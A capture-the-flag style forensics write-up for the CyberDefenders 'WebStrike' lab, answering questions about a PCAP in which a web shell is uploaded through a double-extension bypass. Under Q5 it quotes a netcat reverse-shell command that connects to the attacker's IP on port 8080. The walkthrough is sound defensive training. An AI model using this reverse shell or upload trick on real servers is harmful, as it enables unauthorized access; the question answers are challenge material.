






# WebStrike Lab (Easy | Short)

**Platform:** CyberDefenders    
**Difficulty:** Easy  
**Duration:** ~30 min  
 
## Scenario
A suspicious file was identified on a company web server, raising alarms within the intranet. The Development team flagged the anomaly, suspecting potential malicious activity. To address the issue, the network team captured critical network traffic and prepared a PCAP file for review.
Your task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.  

### Q1 
Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?

Inspecting the network traffic with Wireshark, we quickly found a suspicious POST request.

Following the HTTP stream, we found that the uploaded image hides a reverse shell.

Now, we know the IP of the attacker: 117.11.88.124 (source IP).
To look up which country it comes from, we can either use the reliable VirusTotal or a more specific tool.

In this case, I will use a website called iplocation.com.

Now we know the attacker is from **Tianjin**

### Q2 
Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?  

Using the same HTTP stream from before, we can easily see the User-Agent

### Q3
We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?  

The first POST request was not accepted due to an invalid format error. The attacker bypassed this in his next attempt by adding a double extension, as shown in the picture above.  

### Q4
Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?  

The directory is **reviews/uploads** as shown in the previous screenshots.

### Q5
Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?  

"""/tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f")"""  
Looking at the reverse shell code, we can clearly see that the port is 8080 (the second argument of nc).

### Q6
Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?  

To answer this question, we need to inspect the network traffic after the payload is uploaded. A few frames later, we identified a packet containing the commands executed by the attacker.

